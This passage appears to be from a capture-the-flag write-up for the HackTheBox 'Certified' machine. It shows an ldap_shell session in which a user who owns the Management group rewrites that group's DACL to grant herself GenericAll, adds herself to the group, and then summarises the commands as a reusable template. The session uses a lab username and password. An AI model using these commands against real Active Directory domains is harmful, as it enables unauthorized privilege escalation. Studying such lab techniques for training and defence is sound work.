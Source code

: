 The user JUDITH.MADER@CERTIFIED.HTB has ownership of the group MANAGEMENT@CERTIFIED.HTB.

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

![[Pasted image 20241110203026.png]]

Add user into group:

```bash
garffff@garffff:~$ ldap_shell certified.htb/judith.mader:judith09
[INFO] Starting interactive shell
judith.mader# set_genericall management judith.mader
[INFO] Found Target DN: CN=Management,CN=Users,DC=certified,DC=htb
[INFO] Target SID: S-1-5-21-729746778-2675978091-3820388244-1104
[INFO] Found Grantee DN: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[INFO] Grantee SID: S-1-5-21-729746778-2675978091-3820388244-1103
[INFO] DACL modified successfully! judith.mader now has control of management
 
judith.mader# add_user_to_group judith.mader management
[INFO] Adding user "Judith Mader" to group "Management" result: OK
```
### Summary

```bash
ldap_shell <domain>/<username>:<password>
set_genericall <target_group> <username>
add_user_to_group <targer_user> <target_group>
```